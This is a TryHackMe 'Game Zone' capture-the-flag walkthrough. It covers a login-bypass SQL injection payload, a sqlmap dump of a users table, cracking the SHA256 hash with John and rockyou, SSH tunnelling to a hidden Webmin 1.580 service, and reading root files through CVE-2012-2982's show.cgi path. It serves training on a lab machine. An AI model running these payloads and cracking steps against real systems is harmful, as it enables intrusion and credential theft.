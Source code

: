 ```yaml
---
title: 'Game Zone - TryHackMe Walkthrough'
date: 2020-07-05 00:00:00
featured_image: '/images/posts/gamezone-thm.png'
excerpt: SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a Metasploit payload to gain root privileges.
---
```

![](/images/posts/gamezone-thm.png)

## Goal  
SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.

### Recon
- The initial visit to the page looks like a Game community page have couple links for action (but not working like register) and a login screen with Agent 47 (Hitman) image (reverse search with Google).
- Also it looks the web page is running on php, noticed with failed login and search option which redirected to index.php
- Nmap revealed the below information:

```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
    |   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
    |_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Game Zone
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Logging in
- Using the SQL injection with user name as `' or 1=1 -- -` and any password, logged into the web page.
- The page then navigated to portal.php where there is a search.
- Using Burp, captured and saved the search request to a file, search_request.txt

```
    POST /portal.php HTTP/1.1
    Host: 10.10.17.195
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.17.195/portal.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 19
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=smej272kr499jb9bjd53rcin26
    Upgrade-Insecure-Requests: 1

    searchitem=testgame

```

-  Run the `sqlmap` with the request as input and it will find the database details.
 `sqlmap -r search_request.txt --dbms=mysql --dump`
 - The sqlmap returned:
	 - A table "users" which has hashed usernames and passwords in column "pwd" with SHA256.
	 - `agent47` hashed password is `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`
	 - Another table, "post" has game name and details.

### Cracking the hashed password
Using the `John`, we can  try to find the plain text for the given hash password (saved in hash.txt) with a word list.

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` and cracked the password as *videogamer124*.

### Checking the services
- Login to the victim machine over ssh using the obtained credentials.
- The host is running below sockets:  

```bash
$ ss -tulpn
Netid State      Recv-Q Send-Q  Local Address:Port                 Peer Address:Port              
udp   UNCONN     0      0                   *:10000                           *:*                  
udp   UNCONN     0      0                   *:68                              *:*                  
tcp   LISTEN     0      80          127.0.0.1:3306                            *:*                  
tcp   LISTEN     0      128                 *:10000                           *:*                  
tcp   LISTEN     0      128                 *:22                              *:*                  
tcp   LISTEN     0      128                :::80                             :::*                  
tcp   LISTEN     0      128                :::22                             :::*      

```

- There is a service running on port 10000 which was not showed in nmap results, could be due to firewall block.
- Established a local SSH tunnel with the victim to connect to the blocked service, by creating the tunnel from local host (on port 10001) and the remote (to 10000):  

`ssh -L 10001:localhost:10000 agent47@10.10.17.195`

- The port 10000 on victim is running a Webmin service (CMS) with version 1.580

```
    nmap -p 10001 -A 127.0.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 17:30 EDT
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000064s latency).

    PORT      STATE SERVICE VERSION
    10001/tcp open  http    MiniServ 1.580 (Webmin httpd)
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-title: Login to Webmin
```

### Escalating the Privileges
- The Webmin version 1.580 is vulnerable for remote code execution as defined in [CVE-2012-2982](https://www.exploit-db.com/exploits/21851).
By looking at the exploit, we can access any file by through /file/show.cgi.
- Using this vulnerability, navigate to `http://127.0.0.1:10001/file/show.cgi/root/root.txt` and found the flag value *a4b94583014--------8d12d902adeee*.
- Also the Metasploit (exploit/unix/webapp/webmin_show_cgi_exec) is really not needed here.
